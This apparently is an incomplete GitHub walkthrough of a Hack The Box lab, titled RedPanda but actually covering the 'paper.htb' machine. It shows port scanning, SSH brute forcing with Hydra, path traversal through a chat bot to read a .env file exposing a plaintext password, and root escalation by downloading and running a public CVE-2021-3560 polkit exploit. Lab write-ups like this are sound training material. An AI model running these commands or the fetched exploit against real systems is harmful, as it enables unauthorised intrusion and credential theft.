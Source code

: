 # RedPanda *INCOMPLETE*  
### A demonstration walkthrough of a pen test process using HTB's RedPanda with some normal dead ends as an example.  

*Note* /etc/hosts appended with "10.10.11.143 paper.htb"
Basic scan of all ports 
```
nmap -p- 10.10.11.170
```
Shows ssh/22 and http/8080

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports  
```
ports=$(nmap -p- --min-rate=1000 -T4  10.10.11.170 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.10.11.170
nikto -h 10.10.11.170:8080
```
Interesting Results (NMAP):  
- Running OpenSSH 8.2p1 and an unknown hhtp-proxy "Made by Spring Boot" in title  
Interesting Results (NIKTO):   
- OSVDB-877: TRACE and missing common protection headers.  Set this aside unless we user traffic to escalate.
- Uncommon header 'x-backend-server' found, with contents: office.paper
- Retrieved x-powered-by header: PHP/7.2.24

Browse for unlinked files/resources  
```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://10.10.11.170:8080/FUZZ | grep -wv 404 | grep 0000
```

**DEAD END:** Running OWASP ZAP only turned up vectors for attacked RedPanda clients.
**DEAD END:** Browsing site shows only the default install page, nothing interesting in source.
**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.  
```
echo 'root\nuser\nadmin\nadministrator\ndevelopment\ntest\napache\noffice\npaper' > paper.htb.usernames
echo 'password\nPassword\nPassw0rd\nPassw0rd!' > paper.htb.passwords
hydra -L paper.htb.usernames -P paper.htb.passwords -e nsr ssh://paper.htb
```
**DEAD END:** Using dirbuster results were only standard Apache files

Added backend server to /etc/hosts:  "10.10.11.143 office.paper"
```
nikto -h office.paper
```
Interesting results:
- Link to WordPress API docs: https://api.w.org
- 'x-redirect-by' found, with contents: WordPress

Browsed "office.paper" added a few more possible username to hyrda files.  Following chat noticed command about unsafe draft content.
```
wpscan --url http://office.paper
```
WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
```
searchsploit wordpress 5.2.3
cat /usr/share/exploitdb/exploits/multiple/webapps/47690.md
```

Browsed to http://office.paper/?static=1  
Draft leads to a chat server and secret registration page: http://chat.office.paper/register/8qozr226AhkCHZdyY  

Added "10.10.11.143 chat.office.paper" to /etc/hosts
**DEAD END:** Nikto and dirbuster on discovered hosts didn't yield any new results

I read the blog posts. Fun "The Office" references lots of names to add to Hydra lists.
Dwight setup a bot, seems like he is the admin.

The bot will take commands.
**DEAD END** Trying command injection, nothing I tried worked.  Seems I'm limited to 'list' and 'file' commands
**Comment"" First pass on enum drew a blank beyond the fact that Dwight owns the bot.

#### Rabbit Hole
Should Dwight + "The Office" + password be the way?
Outtakes:   
[YouTube](https://www.youtube.com/watch?v=yXPrp0AAvZ4)  
[YouTube](https://www.youtube.com/watch?v=dtGCC-DleX0)  
[YouTube](https://www.youtube.com/watch?v=HkmJFjbsIgM)  
[YouTube](https://www.youtube.com/watch?v=8zfNfilNOIE)  
[YouTube](https://www.youtube.com/watch?v=F1wodhJ-qFo)  

Geez, lots of ideas, lots of real bad password practices. Hydra failed, zero traction.

#### Better enum 
Googled RocketChat configuration lead to using environment variables. 
A second pass of enum landed on "file ../../dwight/hubot/.env"  
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23  
Added to hydra files

```
hydra -L paper.htb.usernames -P paper.htb.passwords -e nsr ssh://paper.htb
```
[DATA] attacking ssh://paper.htb:22/
[22][ssh] host: paper.htb   login: dwight   password: Queenofblad3s!23
```
ssh dwight@paper.htb
```

### USER SUCCESS!

# Try LinPEAS to find escalation
[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
```
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
scp linpeas.sh dwight@office.paper:linpeas.sh
```

Running linpeas.sh shows vulnerables to  CVE-2021-3560

```
curl https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py > exploit.py
scp exploit.py dwight@paper.htb:.
ssh dwight@paper.htb
```
```
python3 exploit.py
```

### ROOT SUCCESS!
